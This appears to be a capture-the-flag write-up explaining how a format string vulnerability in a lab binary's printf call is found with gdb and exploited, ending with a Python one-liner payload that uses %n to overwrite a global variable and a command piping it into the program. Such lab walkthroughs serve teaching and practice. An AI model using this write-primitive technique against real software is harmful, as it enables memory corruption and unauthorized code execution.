 After analysing the program with gdb we came to the conclusion that the breach of this level is about the printf involve in the v() function.

0x080484d5 <+49>: call 0x8048390 <printf@plt>

after this printf we got:
0x080484da <+54>: mov 0x804988c,%eax ; Load the value at address 0x804988c into EAX
0x080484df <+59>: cmp $0x40,%eax ; Compare the value in EAX with 0x40 (64 in decimal)
0x080484e2 <+62>: jne 0x8048518 <v+116> ; If not equal, jump to the label 'v+116'

if the value is equal to 64 it will jump to the label 'v+116' and then execute the content of 0x8049880

so let's print the value at address 0x804988c.

after doing some manipulation with program and print we found out that the first argument is printed as the fourth string

python -c 'print "aaaa" + "%x " * 10' | ./level4
aaaa 200 b7fd1ac0 b7ff37d0 61616161

so the value at address 0x804988c is the fourth string, and the fourth string is the first argument.

let's replace the first argument with the address of the variable

python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"' | ./level3

Now we have to add 60 number of bytes to attain the value 64.
The modifier %n will write the number of bytes specified before in the choosen address. We can specify the address with %[number]$n option.
Finally our final format string attack will look like:

python -c 'print "\x8c\x98\x04\x08" + "A" \* 60 + "%4$n"' > /tmp/exploit #remove the backslash from \* if you want to run it directly

cat /tmp/exploit - | ./level3
